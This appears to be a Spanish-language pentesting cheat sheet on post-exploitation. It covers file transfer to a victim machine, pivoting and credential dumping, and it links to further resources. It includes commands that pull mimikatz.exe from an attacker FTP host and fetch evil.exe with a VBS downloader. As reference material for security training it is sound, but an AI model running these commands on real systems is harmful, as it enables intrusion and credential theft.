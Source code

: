 ```yaml
---
layout: article
title: Pentesting - Post-explotación
aside:
  toc: true
sidebar:
  nav: side
header:
  theme: dark
  background: black
---
```


<h2>Transferencia de información</h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">SSH</div>
</div>

~~~bash
scp <binario> <user>@<ip>:/tmp
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">FTP</div>
</div>

**Máquina Atacante [Linux]**

Levantar un servidor FTP en la máquina atacante:
~~~bash
pip3 install pyftpdlib ; python3 -m pyftpdlib -p 21
~~~

**Máquina Víctima [Windows]**

Guardar comandos FTP en un fichero dentro del sistema Windows:

~~~bash
echo open 192.168.1.150 21 > ftp.txt
echo USER anonymous >> ftp.txt
echo anonymous >> ftp.txt
echo bin >> ftp.txt
echo GET mimikatz.exe >> ftp.txt
echo bye >> ftp.txt
~~~

Ejecutar comandos ftp para descargar el binario:

~~~bash
ftp -n -v -s:ftp.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Comandos de descarga</div>
</div>

<h3>WGET</h3>

**Máquina Víctima [Windows]**

[https://gist.github.com/udawtr/2053179](https://gist.github.com/udawtr/2053179)

~~~bash
cscript wget.vbs $url evil.exe
~~~

**Máquina Víctima [Windows]**

<h2>Pivoting</h2>

**Habilitar IP Forwarding**

echo 1 > /proc/sys/net/ipv4/ip_forward

<h2>Obtención de credenciales</h2>

[https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf](https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf)

One liners:

[https://gist.github.com/jivoi/c354eaaf3019352ce32522f916c03d70](https://gist.github.com/jivoi/c354eaaf3019352ce32522f916c03d70)

[https://gist.github.com/m8r0wn/b6654989035af20a1cb777b61fbc29bf](https://gist.github.com/m8r0wn/b6654989035af20a1cb777b61fbc29bf)

<h2>Recursos adicionales</h2>

[https://book.hacktricks.xyz/exfiltration](https://book.hacktricks.xyz/exfiltration)

[https://ivanitlearning.wordpress.com/2019/03/22/windows-post-exploitation-privesc-pillaging-pivoting/](https://ivanitlearning.wordpress.com/2019/03/22/windows-post-exploitation-privesc-pillaging-pivoting/)

[https://book.hacktricks.xyz/windows/stealing-credentials](https://book.hacktricks.xyz/windows/stealing-credentials)

[https://gist.github.com/gfoss/ca6aa37f97fd400ff14f](https://gist.github.com/gfoss/ca6aa37f97fd400ff14f)

[https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters](https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters)

[http://www.networkpentest.net/p/windows-command-list.html](http://www.networkpentest.net/p/windows-command-list.html)

[https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)

[https://github.com/kmkz/Pentesting/blob/master/Payload-Delivery-Cheat-Sheet](https://github.com/kmkz/Pentesting/blob/master/Payload-Delivery-Cheat-Sheet)